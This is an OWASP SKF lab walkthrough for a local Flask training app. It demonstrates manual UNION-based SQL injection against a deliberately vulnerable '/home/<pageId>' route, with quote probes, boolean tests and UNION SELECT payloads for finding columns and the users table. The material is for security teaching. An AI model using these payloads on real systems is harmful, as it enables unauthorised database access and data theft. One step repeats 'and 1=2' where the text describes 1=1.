



# KBID 46 - SQLI \(union select\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sqli
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sqli
```


Now that the app is running let's go hacking!


## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```


 Now that the app is running let's go hacking!



## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.


```text
http://127.0.0.1:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote



```text
http://127.0.0.1:5000/home/1'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
```

### Step3

Now we can also use logical operators to determine whether we can actually manipulate the SQL statements.

We start with a logical operator which is false \(and 1=2\). The expected behaviour for injecting a false logical operator would be an error.



```text
http://127.0.0.1:5000/home/1 and 1=2
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.


```text
http://127.0.0.1:5000/home/1 and 1=2
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.


```text
http://127.0.0.1:5000/home/1 union select 1
```

This query results in an error, this is due to the fact that the original query started with 3 columns namely  
\* pageId  
\* title  
\* content


```text
http://127.0.0.1:5000/home/1 union select 1,2,3
```

Notice how "title" and "content" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take an educated guess for the table we want to steal sensitive information from. Again we can see if we try to query a non existent table we get an error. For a correct table we see the application function as intended.



```text
http://127.0.0.1:5000/home/1 union select 1,2,3 from user
```


```text
http://127.0.0.1:5000/home/1 union select 1,2,3 from users
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)
